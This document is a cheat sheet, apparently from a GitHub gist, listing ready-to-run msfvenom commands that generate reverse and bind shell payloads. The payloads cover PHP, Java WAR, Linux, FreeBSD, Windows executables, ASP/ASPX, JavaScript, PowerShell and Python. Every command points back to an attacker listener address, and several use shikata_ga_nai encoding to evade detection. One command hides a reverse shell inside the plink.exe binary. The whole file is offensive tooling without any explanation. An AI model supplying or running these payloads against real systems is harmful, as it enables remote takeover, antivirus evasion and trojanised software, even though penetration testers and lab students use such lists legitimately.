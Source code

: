 https://gist.githubusercontent.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1/raw/c8eb10b796cdaf29d5eb67469b4cdd99ddb96560/msf_pay.md

### PHP Reverse Shell

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php
```

### Java WAR Reverse Shell

```
msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war
```

### Linux bind shell  

```
msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai
```

### Linux FreeBSD Reverse Shell

```
msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f elf -o shell.elf
```

### Linux C Reverse Shell

```
msfvenom  -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f c
```

### Windows non staged Reverse Shell

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe
```

### Windows Staged (Meterpreter) Reverse Shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o meterpreter.exe
```

### Windows Python Reverse Shell

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f python -o shell.py
```

### Windows ASP Reverse Shell

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f asp -e x86/shikata_ga_nai -o shell.asp
```

### Windows ASPX reverse shell

```
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx
```

### Windows JavaScript reverse shell with nops  

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f js_le -e generic/none -n 18
```

### Windows Powershell Reverse Shell

```
msfvenom -p windows/x64/powershell_reverse_tcp lhost=10.10.14.9 lport=444 -f psh -o r444.ps1

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1
```

### Windows reverse shell excluding bad characters  

```
msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f c -b "\x00\x04" -e x86/shikata_ga_nai
```

### Windows x64 bit Reverse Shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe
```

### Windows reverse shell embedded into plink  

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```
